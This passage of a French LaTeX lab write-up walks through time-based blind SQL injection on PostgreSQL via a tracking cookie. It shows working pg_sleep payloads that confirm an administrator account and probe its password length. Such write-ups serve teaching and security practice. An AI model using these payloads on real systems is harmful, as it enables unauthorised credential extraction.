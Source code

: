 \documentclass[11pt,a4paper]{article}
\begin{document}
La réponse revient après une dizaine de secondes au lieu d'être immédiate, ce
qui prouve que la valeur du cookie est bien exécutée comme du SQL par
PostgreSQL. L'injection en aveugle par délai temporel est confirmée.


\subsection{Vérifier que l'utilisateur administrateur existe}
Une charge conditionnelle ne déclenche le délai que si une ligne dont
\texttt{username='administrator'} existe dans la table \texttt{users} :

\begin{lstlisting}
Cookie: TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator')
+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--; session=...
\end{lstlisting}

La réponse met environ 10 secondes : l'utilisateur \texttt{administrator}
existe donc.


Contre-épreuve : avec un nom inexistant (\texttt{username='test'}), la
condition est fausse, \texttt{pg\_sleep(0)} s'exécute et la réponse est
immédiate. Le contraste entre le cas vrai (lent) et le cas faux (rapide)
confirme que l'on maîtrise la logique de la requête.


\subsection{Déterminer la longueur du mot de passe}
La longueur est trouvée par recherche dichotomique sur
\texttt{LENGTH(password)}. Test "supérieur à 20" :

\begin{lstlisting}
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>20)
+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
\end{lstlisting}

La réponse est immédiate (environ 41 ms) : la condition est fausse, le mot de
passe fait donc 20 caractères ou moins.

\end{document}
